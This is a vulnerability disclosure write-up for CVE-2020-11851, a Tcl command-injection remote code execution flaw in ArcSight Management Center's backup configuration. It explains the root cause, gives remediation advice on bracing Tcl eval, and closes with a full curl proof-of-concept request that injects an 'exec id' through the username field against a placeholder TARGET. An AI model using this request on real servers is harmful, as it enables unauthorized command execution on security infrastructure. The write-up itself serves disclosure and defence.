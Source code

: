 # CVE-2020-11851
**Remote Code Execution vulnerability on ArcSight Logger (via ArcSight Management Center)** 

https://nvd.nist.gov/vuln/detail/CVE-2020-11851

### **Executive Summary**
#### `Vulnerability Background`
ArcSight Logger is a comprehensive log management solution that eases compliance burdens and enables faster forensic investigation for security professionals, by unifying and storing machine data logs from across their organizations, and by facilitating rapid search and reporting on that data. 

ArcSight Management Center (ArcMC) is a centralized security management center that manages large deployments of ArcSight solutions such as ArcSight Logger, ArcSight SmartConnectors (Connectors), ArcSight FlexConnectors, and ArcSight Connector Appliance (ConApp) through a single interface.

The vulnerability can be exploited via backup functionality of ArcSight Management Center(version: 2.7.1.2065.0). This backup option works by using “expect” scripts of ArcSight Logger which use Tool Command Language (Tcl). The vulnerability allows attackers to execute arbitrary Tcl commands. This vulnerability on Micro Focus ArcSight Logger product, affecting all version prior to 7.1.1. 

#### `Conclusion`
The server running the vulnerable software can be comprimised by attackers via the RCE vulnerability and become a beachhead from which an adversary could launch further attacks against the organization’s servers, culminating in a serious breach. This vulnerability can result in data loss, corruption, or disclosure to unauthorized parties, loss of accountability or denial of access. 

#### `Recommendations`
It is recommended to check Tcl security best practices for “expect” scripts. Basically, using braces in eval would be safe like below:

```bash
eval puts $exploit   ;# vulnerable  

eval "puts $exploit" ;# vulnerable

eval {puts $exploit} ;# safe
```

More information can be found here: https://wiki.tcl-lang.org/page/Injection+Attack

### **Technical Background**
This section details vectors of command injection that can be used to detect the vulnerability in ArcSight Logger. The titles below can be used to reproduce the attack steps.

#### `Exploring the vulnerable backup option`
In administration tab, there is a backup option. 

![1](https://user-images.githubusercontent.com/51833205/103898363-41c8c200-510e-11eb-97dd-aaa5e2c99e3b.png)

As we can see, we can configure a remote backup server by using SCP protocol. After clicking on the “Save” button, I debugged the server processes by using the tool “pspy” which can be downloaded from here: https://github.com/DominicBreuker/pspy/releases

#### `Debugging the server & Root cause analysis`
After saving the backup configuration, I detected the application uses bash script for checking the SSH server like below (please look at PID 95427):

![2](https://user-images.githubusercontent.com/51833205/103900705-8a35af00-5111-11eb-8f9c-07f2190095fc.png)

Here is the more detailed command(PID 95427) for explanation: 

sh /opt/arcsight/current/arcsight/arcmc/config/logger/`runexpect.sh` /opt/arcsight/current/arcsight/arcmc/bin/filetransfer/lib/ /opt/arcsight/current/arcsight/arcmc/bin/filetransfer/lib/`expect` /opt/arcsight/current/arcsight/arcmc/tmp/`scp.expect.dir.backup1` `UserSuppliedPassword` `UserSuppliedUsernameAndHostname` `UserSuppliedPortNumber` `UserSuppliedBackupDirectory`

Let’s look at the content of “runexpect.sh” and “scp.expect.dir.backup1”(expect script) before explaining the logic of “runexpect.sh”.

Here is the content of “runexpect.sh”:
```bash
#!/bin/sh  
	  
# Set LD_LIBRARY_PATH  
	  
export LD_LIBRARY_PATH=$1  
echo "Assuming LD_LIBRARY_PATH in runexpect :" $LD_LIBRARY_PATH  
shift  
echo "Running command: $*"  
$*  
	  
exit $? 
```

And here is the content of the expect script called “scp.expect.dir.backup1” 

```bash
set password [lindex $argv 0]  
set host [lindex $argv 1]  
set port [lindex $argv 2]  
set dir [lindex $argv 3]  
eval spawn ssh -p $port $host test -d $dir && echo exists  //Vulnerability begins here
expect "*(yes/no)?*$" { send "yes\n" }  
set timeout 600  
expect "*assword:*$" { send "$password\n" } \  
timeout { exit 1 }  
set timeout -1  
expect "\\$ $" 
```
As we can see, “runexpect.sh” sets the environment variable(LD_LIBRARY_PATH) and then executes “expect” binary by using “expect” script called “scp.expect.dir.backup1”. This “expect” script gets 4 arguments to use them in “ssh” command. 

**The actual vulnerability** begins on line 5 of the script named “scp.expect.dir.backup1”. As we mentioned earlier, without braces, user supplied inputs might be very dangerous in Tcl scripts.  

#### `Gaining the code execution`
Since, this code execution vulnerability is completely blind, I used the simplest way to demonstrate the execution. I used, the tool “pspy” to debug the processes and illustrate the arbitrary code execution by sending the malicious HTTP request.

Here is the logic that I wanted “expect” script to execute it:

```bash
eval spawn ssh –p [exec id]  test –d fakehostname && echo exists
[exec : this is argv1
id] : this is argv2
fakehostname : this is argv3
Expected behavior would be like this:
eval spawn ssh –p the_output_of_the_id_command test –d fakehostname && echo exists
# Because, [ ] in Tcl, looks like `` in bash. For more information about the Tcl syntax, please visit to https://wiki.tcl-lang.org/welcome
```

Let’s explain how to achieve to that. If I put space among the “strings” in the “field-username” parameter of the related HTTP request, it would be parsed unintentionally to the “expect” script because of it doesn’t validate argument counts, meaning, I could inject `[exec` as the port number and `id]` as the username. Normally, I couldn’t inject port number parameter of related HTTP request because of the input validation(it should only be digit). 

After sending the HTTP request below, I successfully executed the command and printed its output with tool “pspy”.

![3](https://user-images.githubusercontent.com/51833205/103898354-3d9ca480-510e-11eb-813b-1d4933f8ded7.png)

![4](https://user-images.githubusercontent.com/51833205/103898360-3ffefe80-510e-11eb-8dc8-12a69653f1d0.png)

Here is the corresponding CURL request that I used to exploit the vulnerability(pls modify session related tokens and target):

```bash
curl -i -s -k  -X $'POST' \
    -H $'Host: TARGET' -H $'User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0' -H $'Accept: text/javascript, text/html, application/xml, text/xml, */*' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'X-Requested-With: XMLHttpRequest' -H $'X-Prototype-Version: 1.5.1.2' -H $'Content-type: application/x-www-form-urlencoded; charset=UTF-8' -H $'Content-Length: 463' -H $'Origin: https://hq-arc-mgmt' -H $'Connection: close' -H $'Referer: https://TARGET/arcmc/stand_alone_backup_config.ftl?menu_id=admin' -H $'Cookie: JSESSIONID=C49A27CF695535133EA896C38A41452A; com.arcsight.product.platform.logger.client.session.SessionContext.productName=\"ArcSight Management Center\"; com.arcsight.product.platform.logger.client.session.SessionContext.arcsightProductName=\"ArcSight Management Center\"; session_string=f2k5OHLthMlDaxUI6HMiah36hzg_sfwlqxEv24LKVAk.; user_id_seq=8' \
    -b $'JSESSIONID=C49A27CF695535133EA896C38A41452A; com.arcsight.product.platform.logger.client.session.SessionContext.productName=\"ArcSight Management Center\"; com.arcsight.product.platform.logger.client.session.SessionContext.arcsightProductName=\"ArcSight Management Center\"; session_string=f2k5OHLthMlDaxUI6HMiah36hzg_sfwlqxEv24LKVAk.; user_id_seq=8' \
    --data-binary $'editid=backup1&update=true&cancelurl=config_home.ftl&previousSubmit=false&asf_token=e151b811-42d6-4220-88cc-c20832597de9&field-protocol=SCP&field-port=22&field-host=originalHostInput&field-username=id]+[exec+fakeuser@fakeHostInput&field-password=fakePasswordInput123&field-filepath=%2Fbackup&schedule-editor-command1=everyday&schedule-editor-args1=&schedule-editor-command2=daily&schedule-editor-args2=12&schedule-editor-every-duration=hours&field-excludedata=All' \
    $'https://TARGET/arcmc/stand_alone_backup_config_edit.ftl?&asf_token=e151b811-42d6-4220-88cc-c20832597de9'
```

